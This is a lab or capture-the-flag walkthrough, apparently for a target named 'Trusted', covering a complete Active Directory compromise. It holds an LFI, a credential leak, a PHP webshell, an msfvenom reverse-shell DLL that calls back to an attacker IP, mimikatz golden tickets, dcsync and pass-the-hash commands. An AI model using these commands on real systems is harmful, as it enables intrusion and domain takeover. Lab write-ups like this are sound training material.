# Enumeration
1.
```
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-04-09 14:07:53Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: trusted.vl0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: trusted.vl0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=trusteddc.trusted.vl
| Not valid before: 2024-04-08T14:01:07
|_Not valid after:  2024-10-08T14:01:07
|_ssl-date: 2024-04-09T14:08:09+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: TRUSTED
|   NetBIOS_Domain_Name: TRUSTED
|   NetBIOS_Computer_Name: TRUSTEDDC
|   DNS_Domain_Name: trusted.vl
|   DNS_Computer_Name: trusteddc.trusted.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2024-04-09T14:08:01+00:00
Service Info: Host: TRUSTEDDC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

2.
```
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Apache httpd 2.4.53 ((Win64) OpenSSL/1.1.1n PHP/8.1.6)
| http-title: Welcome to XAMPP
|_Requested resource was http://10.10.187.70/dashboard/
|_http-server-header: Apache/2.4.53 (Win64) OpenSSL/1.1.1n PHP/8.1.6
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-04-09 14:08:12Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: trusted.vl0., Site: Default-First-Site-Name)
443/tcp  open  ssl/http      Apache httpd 2.4.53 ((Win64) OpenSSL/1.1.1n PHP/8.1.6)
| http-title: Welcome to XAMPP
|_Requested resource was https://10.10.187.70/dashboard/
| tls-alpn: 
|_  http/1.1
|_http-server-header: Apache/2.4.53 (Win64) OpenSSL/1.1.1n PHP/8.1.6
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_ssl-date: TLS randomness does not represent time
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: trusted.vl0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3306/tcp open  mysql         MySQL 5.5.5-10.4.24-MariaDB
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.4.24-MariaDB
|   Thread ID: 10
|   Capabilities flags: 63486
|   Some Capabilities: Support41Auth, SupportsLoadDataLocal, Speaks41ProtocolOld, Speaks41ProtocolNew, ODBCClient, InteractiveClient, IgnoreSigpipes, IgnoreSpaceBeforeParenthesis, LongColumnFlag, FoundRows, SupportsTransactions, SupportsCompression, DontAllowDatabaseTableColumn, ConnectWithDatabase, SupportsAuthPlugins, SupportsMultipleResults, SupportsMultipleStatments
|   Status: Autocommit
|   Salt: zu\KEXi*0U9^LABf\{uY
|_  Auth Plugin Name: mysql_native_password
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2024-04-09T14:08:29+00:00; +1s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: LAB
|   NetBIOS_Domain_Name: LAB
|   NetBIOS_Computer_Name: LABDC
|   DNS_Domain_Name: lab.trusted.vl
|   DNS_Computer_Name: labdc.lab.trusted.vl
|   DNS_Tree_Name: trusted.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2024-04-09T14:08:21+00:00
| ssl-cert: Subject: commonName=labdc.lab.trusted.vl
| Not valid before: 2024-04-08T14:01:07
|_Not valid after:  2024-10-08T14:01:07
Service Info: Host: LABDC; OS: Windows; CPE: cpe:/o:microsoft:windows

```

There is an apache website on trusted.vl:


Using gobuster to fuzz directories:

We discover a webpage at /dev:


Now testing for LFI:

It works.

Checking index.html using php filters we get a base64. 


Running gobuster for php extension we get a file called db.php.

Now using LFI:


Now logging in to mysql:
`mysql -u root -pSuperSecureMySQLPassw0rd1337. -h 10.10.225.134`

And checking the database `news`:
`select * from users;`


The password is MD5 hash so cracking it:


Trying to use bloodhound.py it doesnt work and gives an error:

Using dnschef:
`dnschef --fakeip 10.10.225.134`

Now using bloodhound.py:
`bloodhound.py -u 'rsmith' -p 'IHateEric2' -d lab.trusted.vl -dc labdc.lab.trusted.vl -c all -ns 127.0.0.1`

Now we can change the password:
`net rpc password "EWALTERS" "aditya123@" -U "lab.trusted.vl"/"rsmith"%"IHateEric2" -S "labdc.lab.trusted.vl"`

Now we can use evil-winrm:
`evil-winrm -i labdc.lab.trusted.vl -u ewalters -p aditya123@`

Now checking the C drive there is an exe:


Now transfering to windows vm and using prcomon:

It is vulnerable to dll hijacking 

And the exe is 32 bit:

So creating a payload for missing dll:
`msfvenom -p windows/shell_reverse_tcp -f dll LHOST=10.8.1.208 LPORT=9005 > KasperskyRemovalToolENU.dll`
and uploading it in the respective place:

We get a shell

## Alternate privesc
Using mysql upload a webshell to the web directory which we have access to where it is with phpinfo in the home page:
```
SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE 'C:/xampp/htdocs/dev/shell.php';
```
Then access the page:

Now we can upload rcat.exe and get a reverse shell back:


# Lateral Movement
From *adpeas* we know there is a parent child relation so:
Using mimikatz to dump hashes:
```
lsadump::trust /patch
```

Now using
```
Kerberos::golden /user:Administrator /domain:lab.trusted.vl /sid:S-1-5-21-2241985869-2159962460-1278545866-512 /sids:S-1-5-21-3576695518-347000760-3731839591-519 /rc4:978eb8e52b460ee2d5a4979859214b10 /service:krbtgt /target:trusted.vl /ticket: C:\temp\trust.kirbi
```
Then using the ticket:
```
Rubeus.exe asktgs /ticket:C:\temp\ticket.kirbi /service:cifs/trusteddc.trusted.vl /dc:trusteddc.trusted.vl /ptt
```
Now we have tgs:
`export KRB5CCNAME=administrator.ccache`
`psexec.py administrator@trusteddc.trusted.vl -k -no-pass`

Now we can create a user and add to "Domain Admins" and "Enterprise Admins"
```
net user aditya P@ssw0rd /add /domain
```
```
net group "Enterprise Admins" /add aditya
net group "Domain Admins" /add aditya
```
Then enable logging in rdp with pth:
```
nxc smb trusted.vl -u Administrator -H 15db914be1e6a896e7692f608a9d72ef -x 'reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f'
```
Now we can rdp to the machine.
```
xfreerdp /u:administrator /pth:'15db914be1e6a896e7692f608a9d72ef' /cert:ignore /v:trusted.vl
```
To get administrator hash use `-ntds`  in nxc
Then get the hash:

## [[ExtraSids]] Method
With mimikatz
```
kerberos::golden /user:Administrator /domain:lab.trusted.vl /sid:S-1-5-21-2241985869-2159962460-1278545866 /krbtgt:c7a03c565c68c6fac5f8913fab576ebd /sids:S-1-5-21-3576695518-347000760-3731839591-519 /ptt
```
```
lsadump::dcsync /domain:trusted.vl /dc:trusteddc.trusted.vl /all
```

Now to enable rdp:
```
nxc smb trusted.vl -u Administrator -H 15db914be1e6a896e7692f608a9d72ef -x 'reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f'
```
Then to login:
```
xfreerdp /u:administrator /pth:'15db914be1e6a896e7692f608a9d72ef' /cert:ignore /v:trusted.vl
```